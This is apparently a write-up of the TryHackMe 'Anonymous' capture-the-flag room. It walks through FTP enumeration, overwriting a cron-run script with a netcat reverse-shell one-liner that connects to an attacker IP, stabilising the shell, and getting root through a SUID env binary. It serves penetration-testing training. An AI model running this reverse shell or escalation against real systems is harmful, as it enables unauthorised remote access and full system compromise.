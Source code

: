 Room: [Anonymous](https://tryhackme.com/room/anonymous)

Difficulty: Medium

Overview: In this room we will take advantage of a missconfigured ftp server in order to modify a script that runs has a cronjob. From there we will exploit SUID binaries to do privilege escalation. 

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We will start enumerating the machine with nmap:

**nmap -sV -sC -A -p anonymous.thm -oN nmap.txt**

![nmap1](https://user-images.githubusercontent.com/76821053/118256768-c30dd800-b4a5-11eb-8835-6cbb9f426a20.png)
![nmap2](https://user-images.githubusercontent.com/76821053/118256851-d7ea6b80-b4a5-11eb-9455-def0bbef6f87.png)

Open ports and their versions running on the remote system:

21    →  vsftpd 2.0.8 

22    →  OpenSSH 7.6p1

139  →  netbios-ssn Samba smbd 3.X - 4.X

445  →  netbios-ssn Samba smbd 4.7.6

From the nmap scan we can imediately answer the first three questions.

Continuing enumerating the machine. 

The ftp server lets us login with user “anonymous” without any password.

![ftpdownload](https://user-images.githubusercontent.com/76821053/118257028-1122db80-b4a6-11eb-90cf-8b198bb70edf.png)

I downloaded three files: **clean.sh**, **removed_files.log**, **to_do.txt**.

**to_do.txt**:

Leaves a hint that the system is not safe. Meaning that maybe some services have anonymous login.

![todo](https://user-images.githubusercontent.com/76821053/118257209-45969780-b4a6-11eb-9215-7690384324ed.png)

**clean.sh**:

Is a bash script that when ran it checks if there is files in the /tmp directory and removes them. 

![readclean](https://user-images.githubusercontent.com/76821053/118257284-5ba45800-b4a6-11eb-9f3e-5db72feed54b.png)

**removed_files.log**:

When the bash script runs it posts status messages to this .log file.

![remotelog](https://user-images.githubusercontent.com/76821053/118257366-75de3600-b4a6-11eb-93e9-5790a2a1c534.png)

If we monitored the **removed_files.log** file we can see that the script **clean.sh** is running has a cronjob since it keeps posting to the .log file everyminute:

If we use "wc -l" we can check how many lines (post messages) the file has.

![remoteWC1](https://user-images.githubusercontent.com/76821053/118257588-b63db400-b4a6-11eb-882b-1693c6c60e0d.png)

After a few minutes we have 72 entries.
 
![remoteWC2](https://user-images.githubusercontent.com/76821053/118257627-c05fb280-b4a6-11eb-8468-1d11bf8a02b3.png)
 
Lets try to upload files to the ftp server:
 
![ftpuploadtest](https://user-images.githubusercontent.com/76821053/118257708-d9686380-b4a6-11eb-9d0e-098654b93554.png)
 
Has we can see the system allows file upload, so lets change the **clean.sh** script a bit and upload it:
 
![cleantest](https://user-images.githubusercontent.com/76821053/118257824-f7ce5f00-b4a6-11eb-8b4f-6e3e435514d6.png)
 
The new message was posted to the .log file after a minute. 
 
![removemessage](https://user-images.githubusercontent.com/76821053/118258135-6ca19900-b4a7-11eb-8c7f-6b00cb9cff3d.png)

This is our way in to the remote target, so lets change the script to run a netcat reverse shell connection.

**rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f**

Change ip and port to match your own system and delete or comment out the rest of the script, because if the script runs the rest of the commands it will delete our tmp files.

![cleannetcat](https://user-images.githubusercontent.com/76821053/118265218-bb076580-b4b0-11eb-84fe-d1d79f532501.png)

Now we just have to be listening with netcat on the port we specify when we upload the new clean.sh file to the ftp server and get a reverse shell connection.

![netcatreverse](https://user-images.githubusercontent.com/76821053/118265304-dffbd880-b4b0-11eb-878d-c77337844df2.png)

Right away we can find the user.txt flag.

![flag1](https://user-images.githubusercontent.com/76821053/118265533-3a953480-b4b1-11eb-9990-d5658b3adbac.png)

It's good practice to stabilize your shell. So we can use tab-completion, Ctrl+C  without completely kills our shell and use su command since it often do not work.

And in a kali machine to do that we will use the following command:

**python -c 'import pty;pty.spawn("/bin/bash")'**

**export TERM=xterm-256-color**

**CTRL + Z**

**stty raw -echo; fg**

![stabilizeshell](https://user-images.githubusercontent.com/76821053/118265726-7fb96680-b4b1-11eb-973b-a63383054857.png)

Now lets try and elevate our privileges and gain root access.

We can use tools like linpeas.sh, but in this case we will do it manually. Since this privilege escalation is a simple one to find.

When enumerating a UNIX base system one of the first things we can do is search for SUID binaries. Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user.  Files that have suid permissions run with higher privileges. 

For example if a file is owned by “root" user and is set to run has a SUID binary. Normal users might take advantage of this permitions to elevate their privileges.

So to check for SUID binaries we can use this command:

**find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;**

![findsuid](https://user-images.githubusercontent.com/76821053/118266231-33baf180-b4b2-11eb-9900-099dc92816fe.png)
![findsuid2](https://user-images.githubusercontent.com/76821053/118266407-7250ac00-b4b2-11eb-85be-5583970bedab.png)

There is a great site called GTFOBins that has a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

https://gtfobins.github.io/

/usr/bin/env binary is running has root with SUID permitions, so we can exploit it.

![GTFObinenv](https://user-images.githubusercontent.com/76821053/118266632-c6f42700-b4b2-11eb-92f8-da4efdf14a9c.png)

/usr/bin/env /bin/sh -p

![rootflag](https://user-images.githubusercontent.com/76821053/118266812-091d6880-b4b3-11eb-91b8-50146e4390db.png)

Success we found our last flag!




